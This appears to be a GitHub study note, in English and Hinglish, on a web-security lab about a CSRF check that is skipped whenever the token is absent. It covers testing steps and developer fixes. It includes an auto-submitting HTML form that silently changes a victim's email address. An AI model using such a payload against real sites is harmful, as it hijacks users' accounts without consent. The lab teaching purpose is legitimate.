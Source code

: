 # 🔐 CSRF Lab: Token Validation Depends on Token Being Present

## 🧠 Lab Concept Overview

This lab demonstrates a flawed CSRF protection mechanism where the **server checks the CSRF token only if it is present in the request**. If the token is **missing**, the server skips validation and still processes the request. This results in a **CSRF vulnerability**.

---

## 📌 Real World Analogy:

Imagine a security guard who checks your ID only if you hand one over. But if you walk past without showing anything, he just assumes you're allowed to enter. This is exactly what this server is doing.

---

## 🔎 Why This Is a Problem

* CSRF token ka purpose hota hai **unauthorized request** ko rokna.
* Agar token **galat ho** to request reject hoti hai.
* Lekin agar token **missing ho**, aur server usse **ignore karke request accept kar le**, to **attack possible ho jata hai**.

---

## ⚔️ CSRF Attack Strategy (as shown in lab)

### ✅ 1. Observe normal behavior:

Submit a POST request to change the email address. You’ll see:

```txt
email=new@domain.com&csrf=VALID_TOKEN
```

If token is invalid ⇒ request is rejected.

### ✅ 2. Try sending request **without csrf token**:

```txt
email=new@domain.com
```

➡️ Request is accepted — THIS IS THE VULNERABILITY

### ✅ 3. Exploit Using HTML Form:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="csrfattack@exploit.com">
</form>
<script>
  document.forms[0].submit();
</script>
```

### ✅ 4. Host it on exploit server, then deliver it to the victim.

---

## 💥 Real World Scenario — Kya aaj kal aisa hota hai?

Yes — CSRF still exists in real-world apps **especially in legacy systems**, or in:

* Apps with custom CSRF implementations
* Sites using partial frameworks
* Sites missing token enforcement logic in **all request types (GET, POST, etc.)**

**Recent Bug Bounty programs** have reported such logic flaws, proving this is not just theoretical.

---

## 🔍 As a Penetration Tester — Tumhein kya karna hoga?

### ✅ Step-by-Step Testing Strategy:

1. **Find CSRF protected forms** (change email, password, settings)
2. Intercept request in Burp Suite
3. Check if CSRF token is present in body/headers/cookies
4. Remove or tamper with token:

   * Send invalid token → should be rejected
   * Remove token completely → **does it still get accepted?**
5. Try sending GET request instead of POST
6. If accepted → vulnerable

### 🧰 Tools to Use:

* Burp Suite (Proxy, Repeater, Intruder)
* Firefox DevTools / Chrome DevTools
* Custom HTML exploit builder

---

## 🚫 Developer Lesson:

* Token hona chahiye + verify bhi hona chahiye
* Don't just check `if (csrf)`, use full validation
* CSRF middleware in frameworks like Django, Laravel, etc., should be enabled

---

## 🧠 Teri Zuban Mein Summary:

> “Yeh lab batata hai ke agar server sirf token ke hone pe validation kare — lekin uski value verify na kare — to attacker request se token hata ke email change karwa sakta hai. Aise bugs aaj bhi milte hain aur penetration testing mein aise logic flaws pe dhyan dena zaroori hai.”

---

## ✅ Suggested GitHub Note Title:

**"CSRF Vulnerability: Token Present Ho Tabhi Validate Hota Hai — Logic Flaw Explained"**

Ya

**"CSRF Token Bypass by Absence – Modern Logic Flaw for Pentesters"**

